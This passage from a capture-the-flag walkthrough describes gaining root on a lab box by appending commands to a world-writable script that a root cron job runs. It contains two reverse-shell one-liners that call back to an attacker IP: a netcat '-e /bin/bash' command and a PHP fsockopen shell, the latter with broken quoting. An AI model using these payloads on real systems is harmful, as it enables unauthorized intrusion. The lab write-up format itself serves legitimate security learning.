 Anyone can read local.txt on www-data's home directory, so that's probably the user flag.  And what's that running every 5 minutes?  A script called "finally.sh" in /var/www/html?  Let's go look.

>$ cat finally.sh
>#!/bin/sh
>
>./write.sh

So "finally.sh" just runs "write.sh"...
>$ cat write.sh
>#!/bin/sh
>
>touch /tmp/gateway

And all "write.sh" does is touch a directory (to update the modified timestamp).  Can I write to either of these files?  That would be nice.
>$ ls -al
>total 40
>drwxr-xr-x 3 www-data www-data  4096 Jul 24 20:36 .
>drwxr-xr-x 4 www-data www-data  4096 Jul 24 20:37 ..
>-rwxr-xr-x 1 root     root        22 Oct 20  2019 finally.sh
>-rw-r--r-- 1 www-data www-data 10918 Oct 20  2019 index.html
>-rw-r--r-- 1 www-data www-data    21 Oct 20  2019 phpinfo.php
>-rw-r--r-- 1 root     root         9 Oct 21  2019 robots.txt
>drwxr-xr-x 4 www-data www-data  4096 Jan  4 10:13 sar2HTML
>-rwxrwxrwx 1 www-data www-data    30 Jul 24 20:36 write.sh

Well, anyone can write to "write.sh" so there's out ticket.  But what to write?  Netcat?  Open that shell.sh we used inside of the "sar2HTML" directory? I checked netcat and sure enough it's installed.  This will be easy!  We'll just have netcat execute another bash shell back to us:
>$ echo "nc 10.10.10.11 9999 -e /bin/bash" >> write.sh
I open a listener on 9999 and go make a cup of tea.  Black tea.  No sugar, no cream.  Just good hot tea.  I check my listener... nothing.  Has 5 minutes passed?  I glance at the cron job and it's every 5 minutes... so 12:00, 12:05... it's definitely been 5 minutes.  Nothing.  I double check the above commands, looking for typos but it all looks good.  Another 5 minutes... nothing.  Dang it!  Let's run the command outside of "Write.sh" just to triple check.  Awww man, the version of netcat doesn't support "-e" or maybe the port is in use?  I try another port, nothing.

I'm so close... well, php worked before, so let's use it again.
>$ echo "php -r $sock=fsockopen("10.10.10.11",9999);exec("/bin/sh -i <&3 >&3 2>&3");'" >> write.sh

BOOM!  Shell pops, whoami says I'm root.  Collect flag, game over.

What other ways could I have gotten root?
